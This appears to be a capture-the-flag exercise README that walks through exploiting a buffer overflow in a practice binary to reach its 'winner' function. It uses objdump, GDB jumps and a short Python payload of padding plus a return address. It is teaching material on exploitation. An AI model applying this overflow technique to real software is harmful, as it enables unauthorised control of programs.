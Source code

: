 # ex06 README

## Objective
The goal of this exercise is to exploit a buffer overflow vulnerability to call the `winner` function, which prints a success message.

## Steps

### 1. Identify the `winner` Function Address
We start by finding the address of the `winner` function using the `objdump` tool:
```sh
objdump -t bin | grep winner 
```

This command provides the address of the `winner` function:

```plaintext

08048864 g     F .text  00000025              winner
```

The address of the `winner` function is `0x08048864`.

### 2\. Set a Breakpoint in GDB

We then use GDB to set a breakpoint at a known location in the `main` function:

```sh

gdb -q ./bin
```

Inside GDB, we set the breakpoint:
    
```sh
break *0x08048935
```

### 3\. Run the Program with Arbitrary Arguments

We run the program with arbitrary arguments to reach our breakpoint:

```sh
run a a a
```

### 4\. Jump to the `winner` Function

Once the breakpoint is hit, we manually jump to the `winner` function:

```sh

jump *0x08048864
```

This command redirects the execution flow to the `winner` function.

### 5\. Observe the Output and Continue

We observe the success message:

```plaintext

that wasn't too bad now, was it? @ <timestamp>
```



Finally, we continue the execution, which will lead to a segmentation fault but indicates we have achieved our goal:

```sh

continue
```

### Full GDB Command Sequence

Here is the full sequence of commands:

```sh

gdb -q ./bin
```

Inside GDB:

```sh

break *0x08048935
run a a a
jump *0x08048864
continue
```

### Testing the Payload

We also tested the payload directly:

```sh
payload=$(python -c "print 'A'*76 + '\x64\x88\x04\x08'")
./bin $payload
```
![Succsess Flag](./images/image.png)

However, running the payload outside GDB resulted in a segmentation fault, indicating that direct exploitation was not straightforward due to the environment setup.

Difficulties Faced
------------------

1.  **Segmentation Faults**: Running the payload directly resulted in segmentation faults. This could be due to differences in how memory is managed outside of GDB.
2.  **Manual Intervention**: The most reliable method was using GDB to manually jump to the `winner` function. This involved manual steps and was not automatable in the same way as other exploits.
3.  **Address Space Layout Randomization (ASLR)**: Potential issues with ASLR could affect the repeatability of the exploit, but in this environment, it was controlled.

Conclusion
----------

The exercise demonstrated a buffer overflow vulnerability and how to exploit it using GDB. While direct exploitation was challenging due to segmentation faults, using GDB allowed us to manipulate the program's execution flow effectively. This method highlights the importance of understanding the environment and tools available when performing security assessments.